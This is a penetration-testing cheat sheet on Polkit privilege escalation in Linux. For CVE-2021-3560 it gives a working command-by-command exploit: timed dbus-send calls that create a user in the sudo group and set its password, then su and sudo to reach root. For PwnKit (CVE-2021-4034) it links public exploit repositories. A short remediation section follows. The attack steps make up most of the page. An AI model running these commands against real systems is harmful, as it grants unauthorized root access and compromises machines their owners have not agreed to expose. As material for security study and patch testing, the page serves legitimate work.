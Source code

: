 ```yaml
---
title: PolKit Privilege Escalation
description: Polkit (PolicyKit) is a component for controlling system-wide privileges in Unix-like operating systems. It provides an organized way for non-privileged processes to communicate with privileged ones.
tags:
    - Linux
    - Privilege Escalation
refs:
date: 2023-01-01
draft: false
---
```


## CVE-2021-3560

### 1. Send a dbus message to create a new user

Create a new user by sending a dbus message.

```sh
# string:tester: The new user named "tester".
# string:"Tester Account": The description of the new user.
# int32:1: sudo group
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:tester string:"Tester Account" int32:1 & sleep 0.005s; kill $!
```

Then check the new user ID (uid).

```sh
id tester

uid=1000(tester) gid=1000(tester) groups=1000(tester),27(sudo)
```

### 2. Generate a new password hash

```sh
# -6: SHA512
openssl passwd -6 password123
```

Copy the output hash.

### 3. Send a dbus message to set a new password

```sh
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1000 org.freedesktop.Accounts.User.SetPassword string:'<password_hash>' string:'Ask the tester' & sleep 0.005s; kill $!
```

### 4. Switch the new user

```sh
su tester
```

Enter the password you created e.g. “password123”.  
Now change to root .

```bash
sudo -s
# or
sudo su root
```

<br />

## CVE-2021-4034 (PwnKit)

PwnKit is vulnerability of Polkit to local privilege escalation.  
There are many exploits available. Below are examples:

- [https://github.com/arthepsy/CVE-2021-4034](https://github.com/arthepsy/CVE-2021-4034)
- [https://github.com/ly4k/PwnKit](https://github.com/ly4k/PwnKit)

<br />

## Remediations

To avoid the vulnerability, unset setuid from the pkexec executable.

```sh
sudo chmod 0755 /usr/bin/pkexec
# or
sudo chmod 0755 `which pkexec`
```

Or simply upgrade the apt packages in most of distributions which are patched for the vulnerability.

```sh
sudo apt update && sudo apt upgrade
```
